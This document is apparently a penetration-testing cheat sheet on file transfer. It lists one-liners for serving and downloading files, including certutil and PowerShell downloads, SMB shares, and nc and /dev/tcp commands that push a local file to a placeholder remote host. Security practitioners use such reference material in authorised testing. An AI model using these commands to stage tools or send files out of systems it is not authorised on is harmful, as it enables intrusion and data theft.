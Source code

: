# File Transfer

{% hint style="info" %}
You can always check the integrity of the files by computing the md5 hash of the file to ensure it was transferred successfully:

```batch
# Linux
md5sum <file>

# Windows
certutil -hashfile <file> md5
```
{% endhint %}

## HTTP/PHP

### Python3

```bash
python3 -m http.server <port>
```

### Python2

```bash
python2 -m SimpleHTTPServer <port>
```

### PHP

```bash
php -S 0.0.0.0:<port>
```

### Download

#### Wget

```bash
wget <url>
```

#### Curl

```bash
curl -s <url> -o <output>
```

#### PowerShell

```powershell
(New-Object Net.WebClient).DownloadString('<url>') > <output>
```

#### Batch

```batch
certutil -urlcache -split -f <url> <output>
```

## SMB

### SMB Server

```bash
smbserver.py <share> $(pwd) -smb2support
```

### Download

#### Linux

```bash
smbclient //<ip>/<share> -c "get <file> <output>"
```

#### Windows

```powershell
# mount smb Share to drive
net use z: \\<ip>\share /user:<user> <pass>
# copy from share
copy \\<ip>\<share>\<file> <output>
```

## Ncat

### Send

```bash
nc -nlvp <port> < <file>
```

### Recieve

```bash
nc -nlvp <port> > <output>
```

## Bash

### Send

```bash
cat <file> > /dev/tcp/<ip>/<port>
```

### Recieve

```bash
cat < /dev/tcp/<target>/<port> > <output>
```
